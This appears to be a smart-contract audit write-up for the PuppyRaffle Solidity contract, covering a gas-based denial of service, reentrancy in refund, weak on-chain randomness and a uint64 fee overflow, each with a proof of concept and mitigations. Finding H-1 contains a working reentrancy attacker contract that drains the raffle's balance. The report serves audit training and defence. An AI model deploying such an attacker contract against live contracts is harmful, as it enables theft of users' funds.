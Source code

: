 
## Medium

### [M-1] Looping through the `players' array to check for duplicates in `PuppyRaffle::enterRaffle` is a Potential DOS attack. (Root Cause + Impact)

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicate. However, gas cost accumulates exponentially when new players make new checks. Every additional address in the `players` array, is an additional cheeck the loop will have to make.

**Impact:** The gas cost for Raffle rntrsnt will greately increase as more player enters the raffle. this will discourage later users from entering and causing s rush at the start of raffle. 

An attacker might make the `PuppyRaffle::entrants` array to be so big, that no one else enters, saving the win stakes for themselves.

**Proof of Concept:**

if we have two sets of 100 players enter, the cost of gas will be such as:

-  gas cost of the first 100 players: 6252128
- gas cost of the Second 100 players: 18068218

this is more than 3X more expensive for the 2nd 100 players.

<details>
<summary>Proof of code</summary>

Include the following test into `PuppyRaffleTest.t.sol`

```javascript
 function testDosForEnterRaffleFunction () public {

        vm.txGasPrice(1);

        // Let's enter 100 players
        uint256 playerNum = 100;
        address [] memory players = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++){
            players[i] = address(i);
        }
        
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee*players.length}(players);
        uint256 gasEnd = gasleft();


        uint256 gasUsedFirst = (gasStart - gasEnd)*tx.gasprice;
        console.log("gas cost of the first 100 players:", gasUsedFirst);


        // for the 2nd 100 players

      address [] memory playersTwo = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++){
            playersTwo[i] = address(i + playerNum); // address 101, 102, 103...
        }
        
        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee*players.length}(playersTwo);
        uint256 gasEndSecond = gasleft();


        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond)*tx.gasprice;
        console.log("gas cost of the Second 100 players:", gasUsedSecond);

        assert(gasUsedFirst < gasUsedSecond);


    }
```
</details>

**Recommended Mitigation:** Recommendations include;
- Consider allowing duplicates. Here, users can create unique wallets and enter the raffle multiple times.

- Consider using mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.  


## High

### [H-1] `PuppyRaffle::refund` External function call before updating state leaving room for a reentrancy attack.

**Description:** The refund function in the PuppyRaffle contract allows an attacker to exploit a reentrancy vulnerability. The external call to transfer funds (via refund()) is made before updating the contract's state, enabling an attacker to repeatedly call the refund function through a fallback mechanism, thereby draining the contract's balance.

**Impact:** High 

**Proof of Concept:**

If the starting balance of the attacker contract is 0 ETH and the starting contract balance is 4 ETH, after an attack by the ReentrencyAttacker contract, as seen below, the contract balance will be drained to zero:

- Ending attacker contract balance: 5 ETH
- Ending contract balance: 0 ETH

<details>
Please include the code below in the PuppyRaffle.t.sol
<summary>Proof of code</summary>

```javascript
contract ReentrencyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```
</details>


**Recommended Mitigation:**

- Use Reentrancy Guard: Consider implementing the ReentrancyGuard pattern to prevent multiple calls to the same function during the execution process.

- Checks-Effects-Interactions Pattern: Always follow the best practice of the checks-effects-interactions pattern, which involves checking conditions, updating state, and interacting with external contracts only after the state has been updated.


## [H-2] Weak/Insecure Randomness in `PuppyRaffle::selectWinner` allows user to incluence or predict raffle  and/or winning puppy. 

**Description:** Hashing `msg.sender`, `block.timestamp`, and `block.difficulty` produces random numbers and for the case of this raffle, it is considered Not Good.

*Note:* This means users can frontrun this function and call ``refund` if they see they are not the winner 

**Impact:** Any user can influence the winner of the raffle, winning the money and selecting the `rarest` puppy. This will make the entire raffle worthlesss if it becomes a gas war as to who win the raffle.

**Proof of Concept:**
1. Validators can know ahead of time the `block.timestamp` and `block.difficulty` and use to predict when/how to participate. 
2. Users can mine/manipulate their `msg.sender` value to result in their address being used to generate the winner address.
3. Users can revert their `selectWinner` transaction if they don't like the winner in resulting puppy.

**Recommended Mitigation:**

Consider using a cryptographically provable random number generator, i.e., Chainlink VRF.


        //@audit arithmetic overflow. Fixes include a newer version of Solidity, and bigger units (s).


### [H-3] Interger overflow of `PuppyRaffle::totalFees` looses fees.

**Description:** Solidity version prior to `0.8.0` integers were subject to interger overflow.

```javascript
uint64 myVar = type(uint64).max

// myVar = 18446744073709551615
myVar = myVar + 1

// myVar will be zero
```

**Impact:** In `PuppyRaffle::selectWinner,` `totalFees` are accumulated for the `address` to collect in the `PuppyRaffle::withdrawFees.` However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees. This will cause a lot of fees to be stuck in the contract.

**Proof of Concept:**
1. We conclude a raffle of 4 players.
2. We then 89 players enter the new raffle.
3. `totalFees` + uint64(fees); will overflow.
4. You will not be able to withdraw due to the line in the `withdrawfees` function. Except in the case where a selfdestruct is initiated.

<details>
<summary>Code</summary>
</details>

**Recommended Mitigation:**
1. Use a newer version of solidity `(0.8.18)`.
2. Use uint256 instead of uint64 for the `totalFees`.
3. Tou could also use the `safeMath` library of Openzeppelin.
4. Remove the balance check from `PuppyRaffle::withdrawfees`.

```diff
-        require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");

// there are more attack vector with that final require, so we recommend removing it.
```
